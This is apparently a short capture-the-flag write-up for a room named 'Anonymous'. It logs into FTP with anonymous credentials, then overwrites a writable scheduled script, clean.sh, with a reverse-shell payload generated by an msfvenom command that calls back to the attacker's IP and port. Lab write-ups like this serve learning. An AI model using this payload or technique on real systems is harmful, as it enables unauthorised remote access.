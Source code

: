 # Anonymous

Port scan showed that FTP was open. I was able to connect with user `anonymous` and password `anonymous`. There was a message about Passive mode when logging in, and from past experience I know I need to force active mode to download/upload anyting:

```bash
ftp <IP> -A
```

It looks like I have write permissions to a script `clean.sh` which appears to be running on a schedule.

I replaced the script with a reverse shell and am waiting with a listener.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.2.73.217 LPORT=4444 -f sh -o clean.sh
```


